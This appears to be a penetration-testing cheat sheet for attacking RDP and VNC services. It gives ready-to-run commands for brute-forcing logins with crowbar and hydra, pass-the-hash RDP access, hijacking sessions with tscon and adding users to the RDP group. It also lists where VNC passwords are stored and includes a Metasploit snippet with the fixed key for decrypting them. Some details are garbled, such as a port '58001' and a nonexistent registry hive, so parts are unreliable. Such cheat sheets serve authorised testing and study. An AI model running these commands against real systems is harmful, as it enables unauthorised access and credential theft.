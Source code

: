## RDP - 3389
- Brute force
  - `crowbar -b rdp -s <IP>/CIDR -u <USER> -C <PASSWORDS_LIST>`
  - `crowbar -b rdp -s <IP>/CIDR -U <USERS_LIST> -C <PASSWORDS_LIST>`
  
  - `hydra -f -L <USERS_LIST> -P <PASSWORDS_LIST> rdp://<IP> -u -vV`

- Connect with known credentials / hash
  - `rdesktop -u <USERNAME> <IP>`
  - `rdesktop -d <DOMAIN> -u <USERNAME> -p <PASSWORD> <IP>`

  - `xfreerdp /u:[DOMAIN\]<USERNAME> /p:<PASSWORD> /v:<IP>`
  - `xfreerdp /u:[DOMAIN\]<USERNAME> /pth:<HASH> /v:<IP>`

- Session stealing
  - Get openned sessions
    - `query user`
  - Access to the selected
    - `tscon <ID> /dest:<SESSIONNAME>`
  - Adding user to RDP group (Windows)
    - `net localgroup "Remote Desktop Users" <USER> /add`


## VNC - 5800 - 58001 - 5900 - 5901
- Scans
  - `nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -v -p <PORT> <IP>`

- Brute force
  - `hydra -L <USERS_LIST> –P <PASSWORDS_LIST> -s <PORT> <IP> vnc -u -vV`

- Connect
  - `vncviewer <IP>:<PORT>`

- Found VNC password
  - Linux
    - Default password is stored in: ~/.vnc/passwd
  - Windows
    - RealVNC
    - HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver

    - TightVNC
    - HKEY_CURRENT_USER\Software\TightVNC\Server

    - TigerVNC
    - HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4

    - UltraVNC
    - C:\Program Files\UltraVNC\ultravnc.ini

- Decrypt VNC password
  ```
  msfconsole
  irb
  fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
  require 'rex/proto/rfb'
  Rex::Proto::RFB::Cipher.decrypt ["2151D3722874AD0C"].pack('H*'), fixedkey
  /dev/nul
  ```
